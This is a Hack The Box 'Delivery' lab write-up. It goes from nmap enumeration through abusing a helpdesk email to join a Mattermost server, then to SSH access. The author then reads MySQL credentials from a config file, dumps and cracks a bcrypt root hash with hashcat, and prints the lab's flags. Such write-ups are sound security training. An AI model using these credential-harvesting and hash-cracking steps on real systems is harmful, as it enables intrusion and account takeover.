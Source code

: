 # HTB: Delivery

## Engagement Overview

Target: Delivery
Box IP: 10.10.10.222
Date: 2025-09-27
Attacker Host: 10.10.14.6

---

### Objectives

- Compromise internal chat system Matter Most.
- Extract credentials and artifacts from internal chat.
- Gain initial foothold via SSH.
- Find root hashes and crack with found artifacts.
- Escalate and capture `user.txt` and `root.txt`.

---

## Service Enumeration

### Nmap

```bash
sudo nmap -sC -sV -p- -oN logs/nmap.full 10.10.10.222
```

```bash
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp   open  http    nginx 1.14.2
8065/tcp open  http    Golang net/http server
```

### Web Discovery

- Port 80 leads us to a linked vhost `helpdesk.delivery.htb`
- Cannot sign-up due to email limitations, but ticket creation/status is available with internal email generation:


![screenshot](assets/20250927-060311.png)

- Port 8065 leads to what looks like an internal chat system.
- Requires corp email activation to sign up and login, used miss configured support center ticket system.
- Access gained.

![screenshot](assets/20250927-063509.png)

- Given the information we'll be looking for user hashes and cracking with `PleaseSubscribe!`
- Credential found: `maildeliverer:Youve_G0t_Mail!`

---

## Initial Access

Ssh in as maildeliverer and retrieved flag:

```bash
maildeliverer@Delivery:~$ cat user.txt
bb350daf736a264d361f98d26e6b0e1a
```

Found mysql creds in matter most config.json:

```bash
"DataSource": "mmuser:Crack_The_MM_Admin_PW@tcp(127.0.0.1:3306)/mattermost?charset=utf8mb4,utf8\u0026readTimeout=30s\u0026writeTimeout=30s",
```

## Privilege Escalation

### Abusing Saved Credential

```bash
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -pCrack_The_MM_Admin_PW mattermost
```

```mysql
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 96
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [mattermost]> 
MariaDB [mattermost]> select * from Users;
---
MariaDB [mattermost]> select Username,Password from Users;

| root | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```

Cracking hash:

```bash
cat hash.txt   
root:$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO

cat pass.list 
PleaseSubscribe!

# Cracking
hashcat -m 3200 hash.txt pass.list --user -r /usr/share/hashcat/rules/best64.rule

Candidates.#1....: PleaseSubscribe!21 -> PleaseSubscribe!21
```

Root:

```bash
maildeliverer@Delivery:/opt/mattermost/config$ su -
Password: 
root@Delivery:~# ls
mail.sh  note.txt  py-smtp.py  root.txt
root@Delivery:~# cat root.txt
48f92a09c818a0266078b0605cf942e7

# Cute note
root@Delivery:~# cat note.txt
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the box is here: 

- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c 

Keep on hacking! And please don't forget to subscribe to all the security streamers out there.

- ippsec
```

## House Cleaning

- No persistence or artifacts left on target.  

## Tools Utilized

- `nmap`, `ssh` `mysql`, `hashcat`

## Key Takeaways

- Mattermost (or similar chat systems) is a high-value target for credential harvesting when internal email activation or invite flows are misconfigured or leaking tokens.
- Web vhosts and helpdesk portals often contain useful disclosure (tickets, attachments) that can reveal internal usernames, email addresses, or temporary tokens.
- Always check for credential reuse between web apps, databases, and SSH.
